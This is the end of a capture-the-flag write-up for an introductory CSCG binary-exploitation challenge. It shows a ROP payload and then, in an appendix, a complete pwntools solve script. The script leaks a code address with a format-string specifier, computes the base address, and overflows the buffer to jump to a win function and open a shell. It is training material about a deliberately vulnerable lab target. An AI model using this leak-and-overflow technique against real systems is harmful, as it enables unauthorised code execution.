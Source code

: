 ```python
rop = ROP('./pwn1')
ret_addr = base_addr + rop.ret[0]

offset = 264
required_text = b"Expelliarmus\x00"
payload = required_text + (264-len(required_text))*b"A" + ret_addr.to_bytes(8, 'little') + win_addr.to_bytes(8, 'little')
io.sendline(payload)
io.interactive()
```

After adding the instruction we get a shell, and now we just run `cat flag` for the flag.

Flag : `CSCG{NOW_PRACTICE_EVEN_MORE}`

## Appendix

Solve Script:

```python
from pwn import *
import sys

e = context.binary = ELF("./pwn1")
main_offset = e.symbols['main']

if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
    io = process('./pwn1')

else:
    io = remote("49c5aa893e445ac502d05830-1024-intro-pwn-1.challenge.cscg.live", 1337, ssl=True)

format_payload = "%45$p"

"""
for i in range (50):
    payload += f"%p|"
"""
io.recvuntil("name:")
io.sendline(format_payload)
main_addr = int(io.recvuntil(" enter your magic spell:", drop=True)[-12:].decode(), 16)
print(f"Address of main : {hex(main_addr)}")
base_addr = main_addr - main_offset
print(f"Executable base address : {hex(base_addr)}")
win_addr = base_addr+e.symbols['WINgardium_leviosa']
print(f"WINGardium Leviosa : {hex(win_addr)}")

"""
g = cyclic_gen()
cyclic_payload = g.get(0xff+1) #0xff is the buffer size
pause() # attach debugger of choice here
io.sendline(cyclic_payload)
"""

rop = ROP('./pwn1')
ret_addr = base_addr + rop.ret[0]

offset = 264
required_text = b"Expelliarmus\x00"
payload = required_text + (264-len(required_text))*b"A" + ret_addr.to_bytes(8, 'little') + win_addr.to_bytes(8, 'little')

io.sendline(payload)
io.interactive()
```